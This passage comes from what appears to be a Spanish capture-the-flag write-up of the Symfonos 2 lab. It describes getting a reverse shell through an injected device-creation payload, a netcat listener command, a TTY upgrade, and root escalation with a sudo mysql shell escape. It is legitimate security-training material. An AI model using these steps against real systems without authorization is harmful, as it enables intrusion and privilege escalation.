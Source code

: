 También podemos ver que hay una función llamada create_new_device en donde inyecta el payload el payload:

![15Pic]({{ '/assets/img/symfonos2/20240223205050.png' | relative_url }}){: .center }

Si nos dirigimos a /addhost/ como se muestra en el exploit y ponemos las opciones como vemos en la imagen, quizás podamos recibir la revershell.
Me pondré en escucha en la sesión de SSH del usuario aeolus por el puerto 4443

````sh
nc -lvnp 4443
`````

Y ahora, crearé el dispositivo tal y como dice

![16Pic]({{ '/assets/img/symfonos2/20240309134042.png' | relative_url }}){: .center }

Y ahora tendremos que ir a /devices/, clickar en el que hemos creado > capture > snmp > run

![17Pic]({{ '/assets/img/symfonos2/20240223210207.png' | relative_url }}){: .center }

Y recibimos la shell en la consola de aeolus

![18Pic]({{ '/assets/img/symfonos2/20240223210303.png' | relative_url }}){: .center }

Ahora mejores la shell para poder manejarnos mejor:

````sh
script /dev/null -c bash
Ctrl + z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
`````

Al hacer *sudo -l* para listar los privilegios asignados a este usuario vemos que podemos ejecutar mysql como root

![120ic]({{ '/assets/img/symfonos2/20240223213520.png' | relative_url }}){: .center }

En [GTFOBins](https://gtfobins.github.io/gtfobins/mysql/#sudo) podemos ver como abusar de este tipo de binarios, en este caso basta con ejecutar este comando:

````sh
sudo mysql -e '\! /bin/sh'
`````

![19Pic]({{ '/assets/img/symfonos2/20240223213734.png' | relative_url }}){: .center }

Pwned!
